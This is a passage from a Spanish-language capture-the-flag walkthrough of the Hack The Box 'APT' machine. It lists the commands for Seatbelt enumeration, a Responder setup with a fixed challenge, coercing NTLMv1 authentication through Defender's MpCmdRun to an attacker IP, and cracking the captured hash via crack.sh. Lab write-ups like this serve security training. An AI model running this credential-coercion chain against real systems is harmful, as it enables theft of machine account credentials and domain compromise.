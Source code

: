 Tenemos que esperar que se acabe la ejecucion para ver el resultado.

Aqui no vemos nada interessante. Probamos otre binario de analysis, el [Seatbelt.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/).

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Seatbelt.exe
```

Lo cargamos nuevamente a la maquina victima

```powershell
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe -group=all
```

Aqui podemos ver que el NTLM de version 1 esta expuesta en esta maquina.

Aqui vamos a tirar de [crack.sh](https://crack.sh/cracking-ntlmv1-w-ess-ssp/) en lo cual podemos tratar de utilizar el **responder** para
recuperar la llaves y crackearlas con [crack.sh](https://crack.sh)

1. Modificamos el fichero de configuracion de responder

    ```bash
    cd /usr/share/responder
    vi Responder.conf

    # cambiamos el challenge 
    Challenge = 1122334455667788
    ```

1. lanzamos el responder

    ```bash
    python3 responder.py -I tun0 --lm
    ```

1. desde la maquina victima aprovechamos del defender para scanear ficheros

    ```bash
    cd C:\Program Files\Windows Defender
    .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.8\algoquenoexiste
    ```

Aqui vemos que hemos pillado el hash NTLMv1 de la propria maquina. Lo copiamos y usamos de ntlmv1-multi para crear el hash necessario para
romper con crack.sh

```bash
git clone https://github.com/evilmog/ntlmv1-multi
cd ntlmv1-multi
python3 ntlmv1.py --ntlmv1 'APT$::HTB:95ACA8C72487742B427E1AE5B8D5CE6830A49B5BBB58D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788'
```

Aqui podemos copiar el hash en [crack.sh](https://crack.sh) usando un temporary email y recivimos un mail con la key.
